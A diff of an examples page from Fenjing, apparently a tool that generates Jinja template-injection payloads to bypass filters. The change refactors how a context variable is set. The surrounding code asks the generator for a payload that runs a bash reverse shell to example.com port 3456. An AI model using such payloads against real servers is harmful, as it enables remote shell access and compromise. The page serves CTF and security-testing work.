

Before and after one commit to Marven11/Fenjing, a Markdown page: examples.md, the part around the change. Drawn GitHub-style.

```diff
--- a/examples.md
+++ b/examples.md
@@ -75,8 +75,7 @@ def waf(s: str): # 这个函数因题目而定
 if __name__ == "__main__":
     full_payload_gen = FullPayloadGen(waf)
     full_payload_gen.do_prepare()
-    full_payload_gen.context["aaa"] = 100
-    full_payload_gen.context_payload += "{%set aaa=0x64%}"
+    full_payload_gen.add_context_variable("{%set aaa=0x64%}", {"aaa": 100})
     shell_payload, will_print = full_payload_gen.generate(OS_POPEN_READ, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")
     if not will_print:
         print("这个payload不会产生回显")
```
